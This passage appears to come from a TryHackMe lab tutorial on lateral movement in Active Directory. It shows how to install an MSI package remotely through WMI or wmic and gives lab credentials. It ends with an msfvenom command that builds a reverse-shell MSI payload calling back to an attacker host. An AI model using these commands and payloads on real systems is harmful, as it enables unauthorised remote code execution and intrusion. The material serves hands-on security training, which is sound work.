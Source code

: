 To delete the scheduled task after it has been used, we can use the following command:

```powershell
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

## Installing MSI packages through WMI

- Ports:
  - 135/TCP, 49152-65535/TCP (DCERPC)
  - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

MSI is a file format used for installers. If we can copy an MSI  package to the target system, we can then use WMI to attempt to install  it for us. The file can be copied in any way available to the attacker. Once the MSI file is in the target system, we can attempt to install it by invoking the Win32_Product class through WMI:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

We can achieve the same by us using wmic in legacy systems:

```shell-session
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```

## Let's Get to Work!

To complete this exercise, you will need to connect to THMJMP2 using the credentials assigned to you on Task 1 from http://distributor.za.tryhackme.com/creds. If you haven't done so yet, click on the link and get credentials. Once you have your credentials, connect to THMJMP2 via SSH:

```
ssh za\\<AD Username>@thmjmp2.za.tryhackme.com
```

For this exercise, we will assume we have already captured some credentials with administrative access:

**User:** ZA.TRYHACKME.COM\t1_corine.waters

**Password:** Korine.1994

We'll show how to use those credentials to move laterally to THM-IIS using  WMI and MSI packages. Feel free to try the other methods presented  during this task.

We will start by creating our MSI payload with msfvenom from our attacker machine:

**Note:** Since you will be sharing the lab with others, you'll  want to use a different filename for your payload instead of  "myinstaller.msi" to avoid overwriting someone else's payload.     

-  **AttackBox**        

```shell
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstaller.msi
        
```
